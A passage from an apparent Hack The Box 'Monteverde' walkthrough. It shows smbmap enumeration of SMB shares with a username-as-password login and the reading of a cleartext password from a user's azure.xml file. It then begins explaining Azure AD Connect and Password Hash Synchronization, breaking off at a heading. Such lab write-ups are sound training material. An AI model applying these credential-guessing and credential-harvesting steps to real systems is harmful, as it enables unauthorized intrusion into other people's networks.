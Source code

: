 ```
root@kali:~/htb/monteverde# smbmap -u 'SABatchJobs' -p 'SABatchJobs' -H 10.10.10.172 -R
[+] IP: 10.10.10.172:445	Name: 10.10.10.172                                      
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
  <SNIP>
	users$                                            	READ ONLY	
	.\users$\*
	dr--r--r--                0 Fri Jan  3 20:12:48 2020	.
	dr--r--r--                0 Fri Jan  3 20:12:48 2020	..
	dr--r--r--                0 Fri Jan  3 20:15:23 2020	dgalanos
	dr--r--r--                0 Fri Jan  3 20:41:18 2020	mhope
	dr--r--r--                0 Fri Jan  3 20:14:56 2020	roleary
	dr--r--r--                0 Fri Jan  3 20:14:28 2020	smorgan
	.\users$\mhope\*
	dr--r--r--                0 Fri Jan  3 20:41:18 2020	.
	dr--r--r--                0 Fri Jan  3 20:41:18 2020	..
	fw--w--w--             1212 Fri Jan  3 21:59:24 2020	azure.xml
  ```

Of the user home directories, we can only access that of mhope. Within it, we found a xml file containing a password.

```
# cat azure.xml 
��<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
<SNIP>
      <S N="Password">4n0therD4y@n0th3r$</S>
    </Props>
  </Obj>
</Objs>
```

Since this password originates from mhope's directory, it probably belongs to him.

* username: mhope
* password: 4n0therD4y@n0th3r$

## Azure AD Connect Database Exploit

### What is Azure AD Connect?

Let's say you use a mixture of on-premise and cloud applications. For ease of administration and usage, you need **hybrid identity** solutions.

A hybrid identify solution builds a common user identity for authentication and authorization, regardless of whether the resource is on-prem or in the cloud.

Azure AD Connect is Microsoft's tool to achieve hybrid identity goals.

One of the hybrid identity solutions is **Password-Hash-Synchronization (PHS)**.

### What is Password-Hash-Synchronization?
